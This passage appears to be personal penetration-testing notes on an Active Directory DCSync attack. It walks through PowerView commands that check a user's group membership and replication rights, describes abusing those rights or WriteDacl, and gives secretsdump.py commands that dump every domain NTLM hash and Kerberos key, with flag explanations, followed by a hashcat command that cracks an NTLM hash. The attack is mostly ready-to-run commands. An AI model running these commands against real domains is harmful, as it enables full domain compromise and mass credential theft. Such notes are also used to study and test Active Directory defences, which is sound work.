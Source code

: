 **View adunn's Group Membership**
```powershell
Get-DomainUser -Identity <USER-3>  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
#=> Member of (VPN Users, Printer Access, File Share H Drive...) groups
```
> by using powerview we confirm the user is **Standard User** + **member of critical groups  (VPN Users, Printer Access, File Share H Drive...)** so **likely he will have a high priv** 

**Using Get-ObjectAcl to Check adunn's Replication Rights**
```powershell
$sid = Convert-NameToSid <USER-3>

Get-ObjectAcl "DC=<DOMAIN>,DC=<local>" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
#=> DS-Replication-Get-Changes
#=> DS-Replication-Get-Changes-All
```
[+] ==**DS-Replication-Get-Changes** Acl confirms that the user does indeed have the rights.==
>[+] **DS-Replication-Get-Changes** : ==Abusing Directly== . If a user already has replication rights (DS-Replication-Get-Changes + All), just compromise them and run DCSync.  
>[+] **WriteDacl** : ==Abusing Indirectly==  .If a user has WriteDacl, log in as them and grant DCSync rights to your own account, then use that account to perform DCSync.  

#### abuse DCSync 
DCSync replication can be performed **using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.**

##### with secretsdump.py
>This could also likely be done all from Windows using a version of `secretsdump.exe` compiled for Windows as there are several GitHub repos of the Impacket toolkit compiled for Windows

```bash
secretsdump.py -outputfile hashes_list -just-dc <DOMAIN>/<USER-3>:<PASS>@<DC-IP>

-just-dc             # Dump only NTDS.DIT data (domain creds: NTLM hashes + Kerberos keys)
-just-dc-ntlm        # Dump only NTLM password hashes (skip Kerberos keys)
-just-dc-user USER   # Dump data only for the specified user
-history             # Dump previous password hashes (password history)
-pwd-last-set        # Show when each account's password was last changed
-user-status         # Show account status (enabled/disabled/locked)
-outputfile FILE     # Save dumped hashes to file with the given prefix

# with TGT ticket 
export KRB5CCNAME=hacker.ccache 
secretsdump.py -k -no-pass <DOMAIN>/<USER>@<DC-IP> -just-dc -outputfile hashes_list # -k → Use Kerberos authentication (ticket from KRB5CCNAME)

# Listing Hashes, Kerberos Keys, and Cleartext Passwords
ls hashes_list*
#=> hashes.ntds (NTLM hash) hashes.ntds.cleartext (txt)  hashes.ntds.kerberos (keys)

# crack the hashes.ntds (NTLM hash)
hashcat -m 1000 -a 0 "4bb3b317845f0954200a6b0acc9b9f9a" /usr/share/wordlists/rockyou.txt 
```
